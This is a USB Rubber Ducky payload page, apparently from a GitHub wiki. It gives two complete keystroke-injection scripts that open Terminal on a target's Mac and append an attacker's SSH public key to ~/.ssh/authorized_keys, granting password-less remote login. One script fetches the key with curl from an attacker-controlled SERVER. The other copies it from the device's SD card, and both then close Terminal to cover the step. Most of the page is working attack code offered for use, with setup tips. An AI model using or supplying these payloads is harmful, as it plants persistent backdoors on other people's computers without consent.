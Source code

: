 **Author: Jesse Wallace (c0deous)**

This script adds an ssh public key to the authorized_keys file on a target's mac. After running you can connect to the target computer with `ssh targetuser@targetcomputer` and you will be granted access without a password.  This a good alternative to the [OS X User Backdoor payload](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---OSX-User-Backdoor).  There are methods you can use: the web server method, and the twin duck method. The web server method requires you to have a web server (that the target can connect to), and you also must put your id_rsa.pub on your webserver. The twin duck method requires you to have the [Twin Duck firmware](http://code.google.com/p/ducky-decode/downloads/detail?name=c_duck_v2.1.hex&can=2&q=) [flashed](http://code.google.com/p/ducky-decode/wiki/Flashing_Guide) onto your ducky, and your id_rsa.pub needs to be at the root of the sd card. Also you need to name your ducky's sd card DUCKY. For more information on generating an id_rsa.pub read [this](https://www.digitalocean.com/community/articles/how-to-set-up-ssh-keys--2) (steps 1 & 2).  Note: I reccomend you use [duckencoder 2.6.3](http://code.google.com/p/ducky-decode/downloads/detail?name=DuckEncoder_2.6.3.zip&can=2&q=) to encode these payloads. 

## Webserver Method
 
Replace SERVER with the address of your webserver.

    REM Title: OS X Get SSH access
    REM Author: Jesse Wallace (c0deous)
    REM This script adds a ssh public key to the authorized_keys file on a target's mac.
    
    DELAY 1000
    COMMAND SPACE
    DELAY 500
    STRING Terminal
    DELAY 500
    ENTER
    DELAY 800
    STRING curl http://SERVER/id_rsa.pub >> ~/.ssh/authorized_keys
    ENTER
    DELAY 1000
    STRING killall Terminal
    ENTER

    REM Note: you may shorten the times if you think they are too slow.  I made them to accomodate older macs that can't get around very fast.

## Twin Duck Method
Requires the [Twin Duck firmware](http://code.google.com/p/ducky-decode/downloads/detail?name=c_duck_v2.1.hex&can=2&q=) to work.  Instructions for flashing the firmware can be found [here](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Flashing-ducky).  After installing the firmware you need to rename the sd card to DUCKY.

    REM Title: OS X Get SSH access (twin duck version)
    REM Author: Jesse Wallace (c0deous)
    REM This script adds the public ssh key of your attacker computer to the
    REM authorized_keys file in the computers ~/.ssh directory.
    
    DELAY 1000
    COMMAND SPACE
    DELAY 800
    STRING Terminal
    DELAY 500
    ENTER
    DELAY 500
    STRING cat /Volumes/DUCKY/id_rsa.pub >> ~/.ssh/authorized_keys
    ENTER
    DELAY 250
    STRING diskutil unmount /Volumes/DUCKY
    ENTER
    DELAY 800
    STRING killall Terminal
    ENTER

    REM Note: you must quickly unplug your ducky as soon as this is done because if you wait too long it will remount the mass storage and when you disconnect
    REM it from the computer it may corrupt the sd card (this has happened to me before)

